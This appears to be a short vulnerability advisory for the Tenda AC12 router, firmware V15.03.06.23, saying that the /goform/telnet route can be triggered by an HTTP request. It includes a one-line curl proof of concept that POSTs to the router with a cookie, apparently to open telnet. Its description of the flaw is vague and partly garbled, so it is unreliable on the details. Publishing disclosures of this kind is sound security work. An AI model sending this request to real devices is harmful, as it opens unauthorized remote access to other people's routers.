


## Tenda AC12 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC12
* Version:  V15.03.06.23

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip

### Vulnerability details

An issue was discovered in Tenda AC12 V15.03.06.23. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

#### PoC

```
 curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0835927e379ccc302
 b848f4aouh1qw"
```


